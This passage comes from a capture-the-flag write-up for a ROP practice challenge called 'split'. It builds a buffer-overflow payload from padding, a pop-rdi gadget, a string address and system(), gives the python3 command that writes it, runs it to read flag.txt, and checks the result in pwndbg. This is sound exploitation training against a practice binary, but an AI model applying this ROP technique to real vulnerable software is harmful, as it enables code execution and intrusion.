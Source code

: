 #### Payload Structure:

<mark style="color:green;">Padding + ROP Gadget +</mark> <mark style="color:green;"></mark><mark style="color:green;">`"/bin/cat flag.txt"`</mark> (this will <mark style="color:yellow;">`POP`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">the value off the stack and place it in the</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`RDI`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">register for the FIRST parameter of the next called function</mark> -- in this case, `system()`) <mark style="color:green;">+</mark> <mark style="color:green;"></mark><mark style="color:green;">`system()`</mark>.

#### Using python3 to Craft a Payload:

**Before we do this, we need to convert the addresses into little-endian format for our payload:**

```
ROP Gadget: 0x00000000004007c3 = \xc3\x07\x40\x00\x00\x00\x00\x00\

"/bin/cat flag.txt" Offset: 0x601060 = \x60\x10\x60\x00\x00\x00\x00\x00

system(): 0x000000000040074b = \x4b\x07\x40\x00\x00\x00\x00\x00
```

<mark style="color:yellow;">**Armed with that information, we can now grab our flag with the following payload**</mark>**:**

```
python3 -c "import sys; sys.stdout.buffer.write(b'A'*40 + b'\xc3\x07\x40\x00\x00\x00\x00\x00' + b'\x60\x10\x60\x00\x00\x00\x00\x00' + b'\x4b\x07\x40\x00\x00\x00\x00\x00')" > payload
```

**Send the payload to the target:**

```
./split < payload
```

<figure><img src="../../.gitbook/assets/image (155).png" alt=""><figcaption><p>Result</p></figcaption></figure>

We get our flag!

### Analyzing the Payload in `pwndbg`

**Set a breakpoint at `system()`:**

```
b *0x000000000040074b
```

**Run the program and send payload:**

```
r < payload
```

<figure><img src="../../.gitbook/assets/image (156).png" alt=""><figcaption></figcaption></figure>

We can now see our string `"/bin/cat flag.txt"` being passed as a command (or parameter) into the `RDI` register and being passed into `system()`.
